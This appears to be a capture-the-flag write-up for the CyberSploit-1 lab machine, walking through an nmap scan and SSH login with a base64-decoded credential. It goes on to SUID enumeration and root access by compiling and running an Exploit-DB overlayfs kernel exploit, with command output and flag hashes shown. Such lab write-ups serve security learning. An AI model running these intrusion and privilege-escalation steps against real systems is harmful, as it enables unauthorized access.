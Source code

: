 ```yaml
---
categories: [Proving Grounds Play]
tags: [PrivEsc]
---
```


## **Description ⤵️**

>
💡 [CyberSploit-1](https://vulnhub.com/entry/cybersploit-1,506/)
<br>
THIS IS A MACHINE FOR COMPLETE BEGINNER , THERE ARE THREE FALGS AVAILABLE IN THIS VM.
<br>
FROM THIS VMs YOU WILL LEARN ABOUT ENCODER-DECODER & EXPLOIT-DB.
{: .prompt-info }


### Let’s find the IP Address first >>

```bash
IP : 192.168.195.92
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/CyberSploit]
└─$ sudo nmap -sC -sV -T4 -oN Nmap_results.txt 192.168.195.92 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-28 20:36 IST
Nmap scan report for 192.168.195.92
Host is up (0.18s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 01:1b:c8:fe:18:71:28:60:84:6a:9f:30:35:11:66:3d (DSA)
|   2048 d9:53:14:a3:7f:99:51:40:3f:49:ef:ef:7f:8b:35:de (RSA)
|_  256 ef:43:5b:d0:c0:eb:ee:3e:76:61:5c:6d:ce:15:fe:7e (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Hello Pentester!
|_http-server-header: Apache/2.2.22 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/CyberSploit-1/Untitled.png)

After checking the source code I got this →

![Untitled](/Vulnhub-Files/img/CyberSploit-1/Untitled%201.png)

```bash
username:itsskv
```

Now lets check robots.txt file →

![Untitled](/Vulnhub-Files/img/CyberSploit-1/Untitled%202.png)

Now after decoding this base64 encoding I got this →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/CyberSploit]
└─$ echo "Y3liZXJzcGxvaXR7eW91dHViZS5jb20vYy9jeWJlcnNwbG9pdH0=" | base64 -d
cybersploit{youtube.com/c/cybersploit}
```

Now lets use this ⬆️ above string to use as a password for ssh login So, lets give it a try at least →

## SHELL ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/CyberSploit]
└─$ ssh itsskv@192.168.195.92                    
The authenticity of host '192.168.195.92 (192.168.195.92)' cant be established.
ECDSA key fingerprint is SHA256:19IzxsJJ/ZH00ix+vmS6+HQqDcXtk9k30aT3K643kSs.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.195.92' (ECDSA) to the list of known hosts.
itsskv@192.168.195.92 is password: 
Welcome to Ubuntu 12.04.5 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Your Hardware Enablement Stack (HWE) is supported until April 2017.

itsskv@cybersploit-CTF:~$
```

Now when I am inside the shell lets try different things to get to root →

```bash
itsskv@cybersploit-CTF:~$ cat local.txt 
d19dff81aa1a2e22550afd3b583ea580
itsskv@cybersploit-CTF:~$
itsskv@cybersploit-CTF:~$ cat flag2.txt 
Your flag is in another file...
itsskv@cybersploit-CTF:~$
```

Lets check the SUIDs and GUIDs files →

```bash
itsskv@cybersploit-CTF:/$ find / -perm -u=s -type f 2>/dev/null
/bin/fusermount
/bin/ping
/bin/su
/bin/umount
/bin/mount
/bin/ping6
/usr/bin/newgrp
/usr/bin/sudoedit
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/arping
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/mtr
/usr/bin/lppasswd
/usr/bin/traceroute6.iputils
/usr/bin/pkexec
/usr/bin/at
/usr/sbin/uuidd
/usr/sbin/pppd
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/pt_chown
itsskv@cybersploit-CTF:/$ find / -perm -g=s -type f 2>/dev/null
/sbin/unix_chkpwd
/usr/bin/mlocate
/usr/bin/X
/usr/bin/crontab
/usr/bin/chage
/usr/bin/dotlockfile
/usr/bin/bsd-write
/usr/bin/ssh-agent
/usr/bin/mail-unlock
/usr/bin/mail-lock
/usr/bin/mail-touchlock
/usr/bin/expiry
/usr/bin/at
/usr/bin/wall
/usr/sbin/uuidd
/usr/games/gnomine
/usr/games/mahjongg
/usr/lib/libvte-2.90-9/gnome-pty-helper
/usr/lib/utempter/utempter
/usr/lib/evolution/camel-lock-helper-1.2
itsskv@cybersploit-CTF:/$
```

Now after checking so many things lets look for Kernel Exploitation →

```bash
itsskv@cybersploit-CTF:/home/cybersploit$ uname -a
Linux cybersploit-CTF 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 athlon i386 GNU/Linux
itsskv@cybersploit-CTF:/home/cybersploit$
```

After reconing online I got an exploit → [https://www.exploit-db.com/raw/37292](https://www.exploit-db.com/raw/37292)

Lets try it out now →

```bash
itsskv@cybersploit-CTF:/tmp$ nano explit.c
itsskv@cybersploit-CTF:/tmp$ chmod +x explit.c
itsskv@cybersploit-CTF:/tmp$ gcc explit.c -o shell
itsskv@cybersploit-CTF:/tmp$ ./shell
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# /bin/bash -i
root@cybersploit-CTF:/tmp# whoami
root
root@cybersploit-CTF:/tmp# id
uid=0(root) gid=0(root) groups=0(root),1001(itsskv)
root@cybersploit-CTF:/tmp# cd /root
root@cybersploit-CTF:/root# ls -al
total 136
drwx------ 20 root root  4096 Jun 28 20:24 .
drwxr-xr-x 23 root root  4096 Sep 22  2020 ..
-rw-------  1 root root  3540 Sep 23  2020 .ICEauthority
-rw-------  1 root root     0 Sep 23  2020 .Xauthority
-rw-------  1 root root     0 Sep 23  2020 .bash_history
-rw-r--r--  1 root root  3106 Apr 19  2012 .bashrc
drwx------ 13 root root  4096 Sep  3  2020 .cache
drwx------  9 root root  4096 Sep  3  2020 .config
drwx------  3 root root  4096 Jun 27  2020 .dbus
-rw-r--r--  1 root root    25 Sep 23  2020 .dmrc
drwx------  3 root root  4096 Sep 23  2020 .gconf
drwx------  4 root root  4096 Sep  3  2020 .gnome2
-rw-r--r--  1 root root   107 Sep 23  2020 .gtk-bookmarks
drwx------  2 root root  4096 Sep  3  2020 .gvfs
drwxr-xr-x  3 root root  4096 Sep  4  2020 .local
drwx------  3 root root  4096 Sep  3  2020 .mission-control
drwx------  4 root root  4096 Sep  3  2020 .mozilla
-rw-r--r--  1 root root   140 Apr 19  2012 .profile
drwx------  2 root root  4096 Sep 23  2020 .pulse
-rw-------  1 root root   256 Jun 25  2020 .pulse-cookie
-rw-------  1 root root 11459 Sep 23  2020 .xsession-errors
-rw-------  1 root root 11011 Sep 22  2020 .xsession-errors.old
drwxr-xr-x  2 root root  4096 Sep  3  2020 Desktop
drwxr-xr-x  2 root root  4096 Sep  3  2020 Documents
drwxr-xr-x  2 root root  4096 Sep  3  2020 Downloads
drwxr-xr-x  2 root root  4096 Sep  3  2020 Music
drwxr-xr-x  2 root root  4096 Sep  3  2020 Pictures
drwxr-xr-x  2 root root  4096 Sep  3  2020 Public
drwxr-xr-x  2 root root  4096 Sep  3  2020 Templates
drwxr-xr-x  2 root root  4096 Sep  3  2020 Videos
-rw-r--r--  1 root root    32 Sep  4  2020 finalflag.txt
-rw-r--r--  1 root root    33 Jun 28 20:24 proof.txt
root@cybersploit-CTF:/root# cat finalflag.txt 
Your flag is in another file...
root@cybersploit-CTF:/root# cat proof.txt 
59595564ca25b9405d338daab9170f4c
root@cybersploit-CTF:/root# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
3: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
    link/ether 00:50:56:ba:1f:90 brd ff:ff:ff:ff:ff:ff
    inet 192.168.195.92/24 brd 192.168.195.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feba:1f90/64 scope link 
       valid_lft forever preferred_lft forever
root@cybersploit-CTF:/root#
```

---